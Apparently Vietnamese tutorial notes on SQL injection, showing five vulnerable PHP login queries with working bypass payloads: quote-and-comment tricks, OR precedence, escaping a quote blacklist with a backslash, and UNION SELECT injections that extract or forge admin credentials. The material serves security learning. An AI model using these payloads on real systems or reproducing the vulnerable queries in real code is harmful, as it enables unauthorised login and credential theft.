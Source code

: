 ## Example

### Example 1

```
$sql = "SELECT username FROM users WHERE username='$username' AND password='$password'";
$query = $database->query($sql);
```

C1: Truyền dữ liệu `admin' -- ` vào biến username.

C2: Truyền dữ liệu `admin' or 1 = '2`.

Giải thích: toán tử AND sẽ được ưu tiên thực hiện trước toán tử OR. Nên ta có logic của câu truy vấn như sau: TRUE OR (FALSE AND FALSE) --> TRUE OR FALSE = TRUE --> login thành công.

 ### Example 2

 ```
$sql = "SELECT username FROM users WHERE username=\"$username\" AND password=\"$password\"";
$query = $database->query($sql);
```

Tương tự ex 1 nhưng lần này biến $username và $password được bọc trong dấu nháy kép. 

C1: Truyền dữ liệu `admin" -- ` vào biến username.

C2: Truyền dữ liệu `admin" or 1 = "2`.

### Example 3

```
$sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
$query = $database->query($sql);
```

Có sự xuất hiện của hàm LOWER(). Cách khai thác:

Cách khai thác: `admin" ) -- `.

### Example 4

```
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}

function loginHandler($username, $password)
{
    if (!checkValid($username) || !checkValid($password))
        return "detected";
....

    $sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
    $query = $database->query($sql);
```

Ở ví dụ này chương trình đưa dấu nháy kép " vào blacklist. Vì vậy hãy sử dụng dấu backslash `\` để loại bỏ dấu " trong câu truy vấn. Cách khai thác:

Ở trường username nhập: `\`. Như vậy username sẽ nhận giá trị `) AND password=MD5(`.

Ở trường password thực hiện nối dài câu truy vấn để khai thác sqli: `) union select 'admin' -- `.

Lúc này câu truy vấn sẽ trở thành: `SELECT username FROM users WHERE username=LOWER() AND password=MD5() UNION SELECT 'admin' -- `

### Example 5

```
$sql = "SELECT username, password FROM users WHERE username='$username'";
```

Truy vấn giá trị username và password từ database nơi mà usernmae bằng giá trị biến $username nhập vào. password nhập vào sẽ được hash md5 trước khi so sánh với password truy vấn trước đó.

Cách khai thác: nối dài câu truy vấn với `union`.

C1: Truyền dữ liệu vào biến username: `' UNION SELECT password, md5('1') from users where username = 'admin' -- `. Password: `1`. Bằng cách này sẽ lấy được được password của admin từ database.

C2: Cách này sẽ thao túng luôn password và đăng nhập với tư cách admin với bất kì password nào. `' UNION SELECT 'admin', md5('1') -- `.





 

